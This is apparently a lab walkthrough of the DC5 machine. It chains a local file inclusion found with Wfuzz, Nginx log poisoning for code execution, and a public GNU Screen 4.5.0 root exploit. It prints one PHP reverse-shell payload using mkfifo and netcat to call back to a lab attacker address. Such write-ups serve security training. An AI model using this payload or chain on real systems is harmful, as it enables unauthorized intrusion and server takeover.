# DC5 Offensive Security Community Writeup
### Level: `Intermediate` | OS: `Linux`



## Scanning
We launch **nmap** with scripts and software versions on all ports.



## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.



We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.



If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).



We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.



Yes, it is vulnerable to local file inclusion (LFI).



Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.



## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)


#### Result testing Remote Code Execute (RCE)


Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

#### PoC Log Poisoning + RCE


#### Result PoC Log Poisoning + RCE


Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

We read the flag of *user.txt*.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code


#### Result reverse shell code


## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.



This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
